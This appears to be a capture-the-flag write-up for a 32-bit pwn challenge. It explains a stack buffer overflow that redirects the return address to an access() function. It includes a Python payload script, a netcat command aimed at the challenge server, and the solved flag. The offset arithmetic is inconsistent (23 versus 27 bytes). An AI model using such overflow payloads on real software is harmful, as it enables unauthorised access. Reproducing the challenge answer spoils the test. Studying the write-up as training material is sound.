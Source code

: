 # Queen Anne's Revenge
> Aye, lad, can ye outsmart the wicked Blackbeard? if ye can, ye'll be the richest lad in all of Nassau!!!!!

Author: adieos


## About the Challenge
This challenge gives a main.c and chall elf

## How to Solve?

First, let's read main.c to understand what this code actually does to get the flag. Here, I see that to get the flag, the user must log in as blackbeard and set the PIN to 1234. Meanwhile, the default PIN is set to 123 and the user is not prompted for a PIN. So, I believe this is a buffer overflow challenge.

Then, I disassembled the elf challenge to understand what it actually does. From the C source and disassembly:
```
access_addr = 0x080491e6 # access() function address
piratename: 15 bytes
pin: 4 bytes
saved ebp: 4 bytes
return addr: 4 bytes <- this is what we overwrite
```
So, to reach the return address, the number of bytes to be written is: 15 (piratename) + 4 (pin) + 4 (saved ebp) = 23 bytes to overwrite up to before the return addr, then overwrite the return addr (4 bytes) starting at offset 24. In our exploit we use 27 bytes of padding because it reaches the correct return address location in this environment. untuk melakukannya, saya membuat file exploit seperti ini

```
import struct
access_addr = 0x080491e6
payload = b'A' * 27
payload += struct.pack('<I', access_addr)
payload += b'BBBB'
payload += struct.pack('<I', 1234)
payload += b'\n123\n'
import sys
sys.stdout.buffer.write(payload)

```

lalu tinggal kita jalankan dengan command
```
python3 exploit.py | nc intersec.hcs-team.com 10131
```

<img width="786" height="533" alt="Screenshot from 2025-09-17 20-13-58" src="https://github.com/user-attachments/assets/67084251-59e1-45dd-a2a7-8ad9de7d21c0" />


Boom. we got the flag



## Flag
```
HCS{y4rrrr_ill_se3_y3_in_d4vy_j0n35_l0ck3r_4ye_7ec89d5f-2584-45c0-929b-37b30be33c40}
```
